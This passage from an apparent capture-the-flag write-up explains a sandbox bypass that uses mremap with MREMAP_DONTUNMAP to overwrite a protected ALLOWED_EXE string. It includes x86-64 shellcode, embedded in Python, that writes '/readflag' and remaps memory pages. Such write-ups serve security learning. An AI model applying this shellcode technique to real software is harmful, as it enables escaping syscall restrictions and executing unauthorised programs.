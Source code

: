 The trick here is that we can move a memory page (which we control) containing some other string to the memory page containing the `ALLOWED_EXE` variable. This way we can effectively control the contents of the data section. 

[From the `mremap` manpage](https://man7.org/linux/man-pages/man2/mremap.2.html) under the `MREMAP_DONTUNMAP` flag description: 
> This flag, which must be used in conjunction with MREMAP_MAYMOVE, remaps a mapping to a new address but does not unmap the mapping at old_address.

Thus, our goal is to run the equivalent of:
```c
mremap(our_memory, 0x1000, 0x2000);
mremap(our_memory_page (our_memory + 0x1000), 0x1000, 0x1000, MREMAP_DONTUNMAP, page_with_allowed_exe);
```

The `page_with_allowed_exe` page start is `0x50` bytes before the `ALLOWED_EXE` var we are trying to control, so we'll have to write our desired string `0x50` bytes after the start of the page we control so they align after remapping.

I first tried to do this with `"/bin/sh"`, but unfortunately `/bin/sh` itself uses restricted syscalls, so executing it would always fail. Thankfully, the challenge had a provided binary at `/readflag` which gives us the flag without using any restricted syscalls, so we just have to replace `"/bin/id"` with that.

The code for that looks like this:
```python
set_var = """
sub rdi, 0x4c00     <- get ELF base
add rdi, 0x2000     <- get memory page to control
mov rbx, rdi        <- save for later use
mov rdi, 0xc0de000
mov rsi, 0x1000
mov rdx, 0x2000
mov rax, 0x19
syscall             <- mremap(our_memory, 0x1000, 0x2000)

mov rsp, 0xc0de000 + 0x1000 + 0x50 + 0x10
mov rdi, 0x0000000000000067
push rdi
mov rdi, 0x616c66646165722f
push rdi            <- write "/readflag" to our memory page
mov rdi, rsp

sub rdi, 0x50
mov rdx, 0x1000
mov r10, 3          <- MREMAP_DONTUNMAP flag
mov r8, rbx
mov rax, 0x19
syscall             <- remap our controlled page to page of ALLOWED_EXE
"""

shellcode += asm(set_var)
```
